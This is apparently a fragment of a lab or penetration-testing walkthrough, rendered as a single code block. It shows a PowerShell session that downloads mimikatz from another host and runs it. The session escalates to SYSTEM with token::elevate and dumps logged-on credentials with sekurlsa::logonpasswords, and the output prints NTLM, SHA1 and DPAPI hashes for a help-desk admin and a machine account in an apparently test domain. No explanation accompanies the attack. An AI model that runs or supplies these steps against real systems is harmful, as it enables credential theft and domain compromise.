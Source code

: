 ```powershell
PS C:\Windows\Tasks> wget http://192.168.100.57/mimikatz.exe -O mimikatz.exe
wget http://192.168.100.57/mimikatz.exe -O mimikatz.exe
PS C:\Windows\Tasks> .\mimikatz.exe
.\mimikatz.exe

<snip>

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

632     {0;000003e7} 1 D 23027          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;013632c1} 0 D 20515782    US\Administrator        S-1-5-21-210670787-2521448726-163245708-500     (12g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 20596014    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1324275 (00000000:001434f3)
Session           : RemoteInteractive from 2
User Name         : helpdeskadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 12/27/2022 3:03:21 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1120
        msv :
         [00000003] Primary
         * Username : helpdeskadmin
         * Domain   : US
         * NTLM     : 94b4a7961bb45377f6e7951b0d8630be
         * SHA1     : c13e73f3c1cccfb0e6b730afab4d2bd211e2af97
         * DPAPI    : 2b21c39dca16e98467e116b7c1d3eb4c
        tspkg :
        wdigest :
         * Username : helpdeskadmin
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : helpdeskadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1251635 (00000000:00131933)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/27/2022 2:59:29 AM
SID               : S-1-5-96-0-2
        msv :
         [00000003] Primary
         * Username : US-HELPDESK$
         * Domain   : US
         * NTLM     : 76c3848cc2e34ef0a8b5751f7e886b8e
```